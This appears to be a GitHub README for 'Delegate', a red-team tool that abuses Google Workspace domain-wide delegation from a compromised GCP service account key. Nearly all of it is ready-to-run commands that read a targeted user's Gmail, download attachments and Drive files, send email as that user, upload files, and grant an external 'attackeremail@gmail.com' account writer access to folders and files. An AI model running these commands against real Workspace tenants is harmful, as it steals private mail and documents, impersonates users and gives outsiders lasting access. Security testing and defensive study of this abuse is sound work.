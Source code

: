 # Delegate
Tool to perform GCP Domain Wide Delegation abuse and access Gmail and Drive data from a compromised Service Account with domain wide delegation permissions configured within Google Workspace.

- [Domain Wide Delegation article](https://medium.com/@lutzenfried/gcp-domain-wide-delegation-abuses-b82b8dd8cf15)

<img src="./Images/DomainWideDelegation_GCP.png" alt="gcpdelegation" width="800"/>

## Delegate tool usage
### Gmail usage
List all Gmail emails (limit 200 emails)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a list
```

Read Gmail emails (limit 200 emails)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a read
```

List Gmail folders (Labels)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a folders
```

Download all attachments within the targeted Gmail (limit 200 emails)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a attachments
```

Read all emails within specified folder (Labels) (limit 200 emails)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a read -f DRAFT
```

Send an email as targeted.delegated@mackinsoncloud.com to jdoe@gmail.com specifying subject and body email content
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a send -r jdoe@gmail.com -s "Test Messaage subject" -c "Hello this is a test email"
```

### Drive usage

List all files and folders within the targeted Drive account
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -a list
```

List all folders content within the targeted Drive account
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -a folders
```

Download locally a specific file secret.txt
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -a download -t secret.txt
```

Upload files at user's Drive root folder (My Drive)
```
python3 delegate.py -k <serviceaccount_key> -m drive -a upload -i <targeted_Workspace_user> -t <localfile> -p <NameInDrive>
python3 delegate.py -k ../sa_key.json -m drive -a upload -i targeted.delegated@mackinsoncloud.com -t test.txt -p uploadedTest.txt
```

Upload files within specific user's Drive folder or organizational Shared Drive
```
python3 delegate.py -k <serviceaccount_key> -m drive -a upload -i <targeted_Workspace_user> -t <localfile> -p <NameInDrive> -f <DriveFolder>
python3 delegate.py -k ../sa_key.json -m drive -a upload -i targeted.delegated@mackinsoncloud.com -t test.txt -p uploadedTest.txt -f Restricted_documents
```

Modify permissions on specific folder (Add external Gmail account with Writer permissions over the file/folder)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -a permissions -t Restricted_documents -e attackeremail@gmail.com
```

Modify permissions on specific file (Add external Gmail account with Writer permissions over the file/folder)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -a permissions -t secrets.txt -e attackeremail@gmail.com
```
